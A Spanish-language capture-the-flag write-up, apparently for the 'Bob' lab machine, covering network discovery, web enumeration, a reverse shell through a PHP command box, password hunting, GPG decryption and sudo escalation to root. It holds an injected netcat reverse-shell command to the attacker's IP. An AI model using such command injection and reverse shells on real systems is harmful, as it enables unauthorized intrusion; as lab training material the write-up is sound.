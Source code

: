 ## *Reconocimiento*

Identificamos la red con `netdiscover` para poder encontrar alguna red. Encontramos la IP 192.168.1.211, también sabemos que el sistema operativo es Linux.

![alt text](image/bob1.png)

Ya una vez identifico la red a la cual voy a trabajar con nmap para saber que puertos pueden estar abiertos.

![alt text](image/bob2.png)

Podemos ver que tenemos dos puertos abiertos, 80 HTTP, 25468 SSH, dentro del puerto 80 identificamos que manera una versión de Apache, esto puede servirnos más adelante, al mismo tiempo podemos ver los directorios que deberían estar ocultos.

![alt text](image/bob3.png)

La pagina que tenemos es de una biblioteca de una escuela, aunque busqué en el código abierto no encontré nada que pudieran darme pistas de a donde tengo que ir... así que lo que sigue ahora es hacer una enumeración en la web.
Para la enumeración web trabajé con `dirb` y `gobuster` por si en alguna de los dos llegara a encontrar un directorio diferente, al trabajar con las dos encontré las mismas carpetas, así que investigaré el directorio Robots.txt y ver que puedo encontrar.

![alt text](image/bob4.png)
![alt text](image/bob5.png)

Dentro del directorio Robots.txt tenemos otros directorios que no encontramos en la enumeración, así que iré revisando para ver que información relevante se puede hallar.

![alt text](image/bob6.png)

Decidí entrar en cada uno de los directorios pero en Login.php no me devuelve nada, ahora al utilizar el siguiente encuentro una pagina con una caja de texto y si opción de enviar, como ya vemos la pagina está hecha en php así que buscaré la manera de poder hacer una reverse … Por lo pronto dejaré anotado lo que espero hacer e iré mirando los demás directorios.

![alt text](image/bob7.png)

En el directorio /passwords.html encontré un texto que dice lo siguiente.

![alt text](image/bob8.png)

## *Análisis de Vulnerabilidades*

![alt text](image/bob9.png)

Para esta ocasión utilizo metasploit para hacer de oyente al ejecutar un comando para hacer la reverse shell, iré haciendo los cambios pertinentes tanto en el shell de la web como en el metasploit.

![alt text](image/bob10.png)
![alt text](image/bob11.png)

Utilizo el siguiente comando para poder hacer la ejecucion y que funcione como lo espero, veré si funciona 

```bash
echo && nc 192.168.1.208 4444 -e /bin/bash
```

![alt text](image/bob12.png)

Tenemos la sesión iniciada, ahora necesito trabajar con el shell interactivo, que se vea mas estético trabajar en la terminal.

## *Explotación*

![alt text](image/bob13.png)

Una vez estamos en la shell comenzamos a buscar fuera del servidor web que podemos hallar, dentro del directorio Home puedo ver 4 usuarios
Entro a investigar dentro del usuario Bob y logro ver un archivo oculto llamado old_passwordfile.

![alt text](image/bob14.png)
![alt text](image/bob15.png)

Tomaré las contraseñas encontradas y las guardaré en una archivo aparte, verificaré si estas contraseñas todavía siguen en función.

![alt text](image/bob16.png)

Vemos que dentro del mismo usuario Bob encontramos una carpeta tras otra que nos da como ultimo hallazgo un documento llamado notes.sh, a simple vista se ve como un chat normal pero las letras en mayúscula dan una palabra HARPOCRATES. 
Quise saber si había un significado para la palabra y encontré …  ` dios del silencio, los secretos y la confidencialidad en la religión helenística desarrollada en la Alejandría ptolemaica `  puede que esta palabra me sirve algún momento.

![alt text](image/bob17.png)

Dentro de la carpeta documentos habían otros dos archivos, uno `login.txt.gpg` y `staff.txt` así que la curiosidad me mató y quise ver que había dentro de cada uno.

![alt text](image/bob18.png)

Dentro del usuario Elliot podemos encontrar un texto relevante, en el resto de su domino no encontré nada que aportara.
En el texto podemos ver que nos terminan de confirmar que la contraseña de Jame es Qwerty y de paso también conocemos ahora la contraseña de elliot que es theadminisdumb.

![alt text](image/bob19.png)

Estamos utilizando la herramienta de cifrado/descifrado gpg integrada. Le proporcionamos la frase de contraseña que encontramos y especificamos que queremos descifrar el archivo.
Pero antes de eso debemos tener acceso a un usuario, así que entramos con el perfil seb y su contraseña, luego de esto utilizamos la herramienta de cifrado y esta nos genera la contraseña de bob.

![alt text](image/bob20.png)

## *Post-Explotación*

Realizamos un **sudo -l** para ver si Bob tiene acceso de root o comandos que puede usar.
Usando **sudo bash** obtenemos un shell raíz y luego navegamos al directorio **/** donde se encuentra el archivo flag.txt.

![alt text](image/bob21.png)

Obtenemos la flag y con esto concluye la maquina.

![alt text](image/bob22.png)
